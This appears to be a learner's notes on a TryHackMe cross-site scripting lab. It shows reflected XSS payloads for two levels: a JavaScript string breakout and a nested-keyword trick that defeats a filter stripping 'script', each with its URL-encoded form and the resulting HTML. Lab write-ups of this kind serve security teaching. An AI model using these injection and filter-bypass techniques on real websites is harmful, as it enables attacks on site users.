 ```
```


```
Level 4
Enter Your Name: jam
[Enter]

thmlabs.com/level4?payload=jam
Hello, jam 

<div class="text-senter">
	<h2>Hello, <span class="name"></span></h2>
</div>
<script>
	document.getElementsByClassName('name')[0].innerHTML='jam';
</script>



';alert('THM');//

thmlabs.com/level4?payload=%27%3Balert%28%27THM%27%29%3B%2F%2F
popup 'THM'

```


```
Level 5
Enter Your Name: jam
[Enter]

<script>alert('THM');</script>


thmlabs.com/level5?payload=%3Cscript%3Ealert%28%27THM%27%29%3B%3C%2Fscript%3E

Hello, <>alert('THM');

<div class="text-center">
	<h2>Hello, <>alert('THM');</></h2>
</div>
<div class="text-center">
	<div id="confirmxss">Confirming XSS Payload</div>
</div>


The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.  
When a word gets removed from a string, there's a helpful trick that you can try.

<sscriptcript>alert('THM');</sscriptcript>

thmlabs.com/level5?payload=%3Csscriptcript%3Ealert%28%27THM%27%29%3B%3C%2Fsscriptcript%3E


<div class="text-center">
	<h2>Hello, <script>alert('THM');</script></h2>
</div>
<div class="text-center">
	<div id="confirmxss">Confirming XSS Payload</div>
</div>


```